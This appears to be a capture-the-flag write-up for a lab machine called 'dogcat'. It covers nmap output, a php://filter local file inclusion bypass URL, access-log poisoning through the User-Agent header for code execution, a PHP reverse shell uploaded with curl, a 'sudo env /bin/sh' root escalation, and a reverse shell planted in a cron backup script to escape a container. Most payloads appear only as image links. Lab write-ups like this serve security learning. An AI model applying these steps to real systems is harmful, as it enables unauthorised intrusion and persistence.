# dogcat


## nmap


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


## httpenum


#### filter

there is a filter which puts php extension at the end and also checks for dogs and cats




#### bypass

````
http://10.10.123.109/?view=php://filter/convert.base64-encode/resource=dog../../index
````







#### code analysis

- we can see first it checks for ext in the link 
- and then it check for string of dog and cat
- it gets the file this can be used for local file inclusion




## exploit


#### access.log



- in access log we see it saves our user agent this can be used for code execution 
- we will save a simple php rce which will php tag 
- when php reads the access.log file it will execute the code


[webshells](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)



- use this in place of user agent and it will be stored in access.log
- the we can get rce


#### burp suite




#### code execution




#### reverse shell

- uploaded a php reverse shell with my ip
- used curl for uploading it
- used a python3 server for hosting the file




## post




```bash
sudo env /bin/sh
```

got our shelf root but we are in docker container


#### opt

- found backup.sh
- it looks like a cronjob
- added my reverse bash shell inside the file




#### shell




